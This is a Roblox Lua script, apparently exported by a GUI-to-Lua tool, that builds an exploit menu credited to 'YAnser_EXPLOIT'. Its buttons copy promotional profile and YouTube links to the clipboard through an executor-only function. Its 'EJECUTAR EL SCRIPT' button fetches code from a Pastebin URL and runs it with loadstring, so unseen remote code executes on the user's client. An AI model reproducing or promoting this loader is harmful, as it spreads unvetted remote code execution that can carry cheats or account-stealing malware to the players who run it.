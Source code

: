 -- Gui to Lua
-- Version: 3.2

-- Instances:

local ScreenGui = Instance.new("ScreenGui")
local Abrir = Instance.new("TextButton")
local UICorner = Instance.new("UICorner")
local Frame = Instance.new("Frame")
local UICorner_2 = Instance.new("UICorner")
local TextLabel = Instance.new("TextLabel")
local UICorner_3 = Instance.new("UICorner")
local TextLabel_2 = Instance.new("TextLabel")
local UICorner_4 = Instance.new("UICorner")
local perfil = Instance.new("TextButton")
local UICorner_5 = Instance.new("UICorner")
local Copiarlikndeyoutube = Instance.new("TextButton")
local UICorner_6 = Instance.new("UICorner")
local ejecutaelscript = Instance.new("TextButton")
local UICorner_7 = Instance.new("UICorner")
local TextButton = Instance.new("TextButton")
local UICorner_8 = Instance.new("UICorner")

--Properties:

ScreenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling
ScreenGui.ResetOnSpawn = false

Abrir.Name = "Abrir"
Abrir.Parent = ScreenGui
Abrir.BackgroundColor3 = Color3.fromRGB(0, 255, 8)
Abrir.BorderColor3 = Color3.fromRGB(0, 0, 0)
Abrir.BorderSizePixel = 0
Abrir.Position = UDim2.new(0, 0, 0.732171118, 0)
Abrir.Size = UDim2.new(0, 162, 0, 41)
Abrir.Font = Enum.Font.Bangers
Abrir.Text = "abrir"
Abrir.TextColor3 = Color3.fromRGB(0, 0, 0)
Abrir.TextScaled = true
Abrir.TextSize = 14.000
Abrir.TextWrapped = true

UICorner.Parent = Abrir

Frame.Parent = ScreenGui
Frame.BackgroundColor3 = Color3.fromRGB(28, 255, 12)
Frame.BorderColor3 = Color3.fromRGB(0, 0, 0)
Frame.BorderSizePixel = 0
Frame.Position = UDim2.new(0.660262883, 0, 0.160063386, 0)
Frame.Size = UDim2.new(0, 336, 0, 180)
Frame.Visible = false
Frame.Active = true
Frame.Draggable = true

UICorner_2.Parent = Frame

TextLabel.Parent = Frame
TextLabel.BackgroundColor3 = Color3.fromRGB(38, 255, 0)
TextLabel.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.BorderSizePixel = 0
TextLabel.Position = UDim2.new(0, 0, 0.48888889, 0)
TextLabel.Size = UDim2.new(0, 336, 0, 40)
TextLabel.Font = Enum.Font.Bangers
TextLabel.Text = "Creado por ELOSO: HElPER"
TextLabel.TextColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.TextScaled = true
TextLabel.TextSize = 14.000
TextLabel.TextWrapped = true

UICorner_3.Parent = TextLabel

TextLabel_2.Parent = Frame
TextLabel_2.BackgroundColor3 = Color3.fromRGB(38, 255, 0)
TextLabel_2.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextLabel_2.BorderSizePixel = 0
TextLabel_2.Size = UDim2.new(0, 336, 0, 40)
TextLabel_2.Font = Enum.Font.Bangers
TextLabel_2.Text = "frame CReado POr YAnser_EXPLOIT OWNER"
TextLabel_2.TextColor3 = Color3.fromRGB(252, 26, 26)
TextLabel_2.TextScaled = true
TextLabel_2.TextSize = 14.000
TextLabel_2.TextStrokeColor3 = Color3.fromRGB(104, 26, 0)
TextLabel_2.TextWrapped = true

UICorner_4.Parent = TextLabel_2

perfil.Name = "perfil"
perfil.Parent = Frame
perfil.BackgroundColor3 = Color3.fromRGB(26, 255, 0)
perfil.BorderColor3 = Color3.fromRGB(0, 0, 0)
perfil.BorderSizePixel = 0
perfil.Position = UDim2.new(0, 0, 0.711111128, 0)
perfil.Size = UDim2.new(0, 336, 0, 48)
perfil.Font = Enum.Font.Cartoon
perfil.Text = "COPIAR LIK DE  PERFIL ROBLOX "
perfil.TextColor3 = Color3.fromRGB(0, 0, 0)
perfil.TextScaled = true
perfil.TextSize = 14.000
perfil.TextWrapped = true

UICorner_5.Parent = perfil

Copiarlikndeyoutube.Name = "Copiar likn de youtube"
Copiarlikndeyoutube.Parent = Frame
Copiarlikndeyoutube.BackgroundColor3 = Color3.fromRGB(26, 255, 0)
Copiarlikndeyoutube.BorderColor3 = Color3.fromRGB(0, 0, 0)
Copiarlikndeyoutube.BorderSizePixel = 0
Copiarlikndeyoutube.Position = UDim2.new(0, 0, 0.222222224, 0)
Copiarlikndeyoutube.Size = UDim2.new(0, 336, 0, 48)
Copiarlikndeyoutube.Font = Enum.Font.Bangers
Copiarlikndeyoutube.Text = "COPIAR LIKN DE YOUTUBE"
Copiarlikndeyoutube.TextColor3 = Color3.fromRGB(255, 0, 0)
Copiarlikndeyoutube.TextScaled = true
Copiarlikndeyoutube.TextSize = 14.000
Copiarlikndeyoutube.TextWrapped = true

UICorner_6.Parent = Copiarlikndeyoutube

ejecutaelscript.Name = "ejecuta el script"
ejecutaelscript.Parent = Frame
ejecutaelscript.BackgroundColor3 = Color3.fromRGB(26, 255, 0)
ejecutaelscript.BorderColor3 = Color3.fromRGB(0, 0, 0)
ejecutaelscript.BorderSizePixel = 0
ejecutaelscript.Position = UDim2.new(-0.0178571437, 0, 1.13333333, 0)
ejecutaelscript.Size = UDim2.new(0, 336, 0, 48)
ejecutaelscript.Font = Enum.Font.Bangers
ejecutaelscript.Text = "EJECUTAR EL SCRIPT"
ejecutaelscript.TextColor3 = Color3.fromRGB(0, 0, 0)
ejecutaelscript.TextScaled = true
ejecutaelscript.TextSize = 14.000
ejecutaelscript.TextWrapped = true
ejecutaelscript.MouseButton1Click:Connect(function()
	loadstring(game:HttpGet("https://pastebin.com/raw/pUvk88GY"))()
end)

UICorner_7.Parent = ejecutaelscript

TextButton.Parent = Frame
TextButton.BackgroundColor3 = Color3.fromRGB(255, 30, 0)
TextButton.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextButton.BorderSizePixel = 0
TextButton.Position = UDim2.new(0.791666687, 0, -0.150000006, 0)
TextButton.Size = UDim2.new(0, 64, 0, 27)
TextButton.Font = Enum.Font.Bangers
TextButton.Text = "X"
TextButton.TextColor3 = Color3.fromRGB(0, 0, 0)
TextButton.TextScaled = true
TextButton.TextSize = 14.000
TextButton.TextWrapped = true

UICorner_8.Parent = TextButton

-- Scripts:

local function XMBNBY_fake_script() -- Abrir.LocalScript 
	local script = Instance.new('LocalScript', Abrir)

	local player = game.Players.LocalPlayer
	
	script.Parent.MouseButton1Click:Connect(function()
		player.PlayerGui.ScreenGui.Frame.Visible = true
	end)
end
coroutine.wrap(XMBNBY_fake_script)()
local function WJWB_fake_script() -- perfil.LocalScript 
	local script = Instance.new('LocalScript', perfil)

	-- LocalScript dentro del TextButton
	
	local textButton = script.Parent -- El TextButton en el que este script está adjunto
	local linkToCopy = "https://www.roblox.com/es/users/3665892293/profile" -- El enlace que deseas copiar al portapapeles
	
	-- Función que cambia el texto del botón a "Copiado"
	local function cambiarTexto()
		textButton.Text = "Copiado gracias!"
	end
	
	-- Función para copiar el enlace al portapapeles
	local function copiarAlPortapapeles()
		setclipboard(linkToCopy) -- Usa la función setclipboard para copiar al portapapeles
	end
	
	-- Evento para detectar cuando se hace clic en el TextButton
	textButton.MouseButton1Click:Connect(function()
		copiarAlPortapapeles() -- Copiar el enlace
		cambiarTexto() -- Cambiar el texto a "Copiado"
	end)
	
end
coroutine.wrap(WJWB_fake_script)()
local function DQXFIKZ_fake_script() -- Copiarlikndeyoutube.LocalScript 
	local script = Instance.new('LocalScript', Copiarlikndeyoutube)

	-- LocalScript dentro del TextButton
	
	local textButton = script.Parent -- El TextButton en el que este script está adjunto
	local linkToCopy = "https://www.youtube.com/@YANSER_EXPLOIT" -- El enlace que deseas copiar al portapapeles
	
	-- Función que cambia el texto del botón a "Copiado"
	local function cambiarTexto()
		textButton.Text = "Copiado"
	end
	
	-- Función para copiar el enlace al portapapeles
	local function copiarAlPortapapeles()
		setclipboard(linkToCopy) -- Usa la función setclipboard para copiar al portapapeles
	end
	
	-- Evento para detectar cuando se hace clic en el TextButton
	textButton.MouseButton1Click:Connect(function()
		copiarAlPortapapeles() -- Copiar el enlace
		cambiarTexto() -- Cambiar el texto a "Copiado"
	end)
	
	
end
coroutine.wrap(DQXFIKZ_fake_script)()
local function PTXINB_fake_script() -- TextButton.LocalScript 
	local script = Instance.new('LocalScript', TextButton)

	local player = game.Players.LocalPlayer
	
	script.Parent.MouseButton1Click:Connect(function()
		player.PlayerGui.ScreenGui.Frame.Visible = false
	end)
end
coroutine.wrap(PTXINB_fake_script)()
